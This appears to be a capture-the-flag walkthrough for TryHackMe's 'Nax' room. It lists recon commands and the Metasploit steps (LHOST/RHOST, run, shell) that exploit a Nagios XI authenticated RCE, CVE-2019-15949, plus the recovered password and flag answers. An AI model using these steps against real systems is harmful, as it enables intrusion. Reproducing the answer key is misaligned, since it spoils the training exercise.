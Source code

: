 # <div align="center">[Nax](https://tryhackme.com/r/room/nax)</div>
<div align="center">Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.</div><br>

<div align="center">
<img src="https://github.com/user-attachments/assets/7f2bec20-9377-4463-abf7-12602b548fc3" height="200"></img>
</div>


## Task 1. Flag

Are you able to complete the challenge?

### What hidden file did you find?
```
PI3T.Png
```
* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<ip>:80/ -w /path-to-wordlist -x txt,php,html```
* ```curl -s http://<IP>```
* ```python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"```

### Who is the creator of the file?
```
Piet Mondrian
```
* ```exiftool PI3T.PNg```
### If you get an error running the tool on your downloaded image about an unknown ppm format -- open it with gimp or another paint program and export to ppm format, and try again!
```
No answer needed
```
### What is the username you found?
```
nagiosadmin
```
* ```./npiet /data/tmp/files/PI3T.ppm```
### What is the password you found?
```
n3p3UQ&9BjLp4$7uhWdY
```
### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
```
CVE-2019-15949
```
* ```searchsploit ngios XI -w```
### Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.
```
No answer needed
```
* ```msfconsole```
* ```search ngios XI```
* ```use 8```
* ```show options```
* ```set LHOST AttackerIP```
* ```set RHOST MachineIP```
* ```set PASSWORD PW```
* ```run```
* ```shell```
* ```cat user.txt```
* ```cat root.txt```
### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?
```
exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```
### Compromise the machine and locate user.txt
```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```
### Locate root.txt
```
THM{c89b2e39c83067503a6508b21ed6e962}
```
